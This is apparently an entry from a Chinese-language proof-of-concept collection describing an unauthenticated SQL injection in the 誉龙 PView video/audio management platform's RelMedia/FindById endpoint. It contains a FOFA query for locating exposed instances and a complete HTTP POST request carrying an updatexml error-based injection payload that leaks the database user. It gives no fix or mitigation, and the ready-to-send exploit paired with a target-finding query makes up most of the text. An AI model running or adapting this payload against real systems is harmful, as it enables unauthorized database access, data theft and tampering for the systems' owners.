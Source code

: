 # 誉龙视音频综合管理平台FindById存在SQL注入漏洞

誉龙视音频综合管理平台 RelMedia/FindById 存在SQL注入漏洞，未经身份验证的远程攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="PView 视音频管理平台"
```

## poc

```javascript
POST /index.php?r=RelMedia/FindById HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

id=1+and+updatexml(1,concat(0x7e,user(),0x7e),1)--+
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409162102180.png)

